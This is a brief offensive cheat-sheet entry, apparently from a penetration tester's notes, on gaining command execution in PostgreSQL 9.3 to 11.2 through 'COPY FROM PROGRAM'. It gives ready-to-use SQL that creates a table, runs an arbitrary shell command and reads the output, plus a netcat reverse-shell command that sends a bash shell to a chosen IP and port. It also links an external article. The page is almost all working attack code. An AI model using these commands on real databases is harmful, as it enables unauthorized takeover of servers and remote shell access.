 # postgres

## Arbitary RCE 9.3 - latest (11.2)

```bash
DROP TABLE IF EXISTS kashz; CREATE TABLE kashz(out text);
COPY kashz FROM PROGRAM '<command>'; SELECT * FROM kashz;

# shell
COPY kashz from PROGRAM '/usr/bin/nc -e /bin/bash IP PORT';
```

{% embed url="https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5" %}
